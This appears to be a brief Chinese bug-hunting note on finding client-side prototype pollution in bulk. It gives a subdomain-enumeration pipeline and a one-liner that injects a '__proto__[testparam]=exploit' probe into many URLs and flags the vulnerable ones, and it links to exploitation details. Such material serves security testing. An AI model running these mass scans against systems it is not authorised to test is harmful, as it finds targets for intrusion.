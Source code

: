 ## 另类漏洞批量挖掘

## 原型链污染

1.获取子域

```
subfinder -d http://target.com -all -silent | httpx -silent | anew alive.txt
```

2.检查/发现漏洞

```
sed 's/$/\/?__proto__[testparam]=exploit\//' 200_all.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE GOOD]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g"| grep "GOOD"
```

3.利用细节

[https://github.com/BlackFan/client-side-prototype-pollution…](https://t.co/HgKH4a5CcF?amp=1)

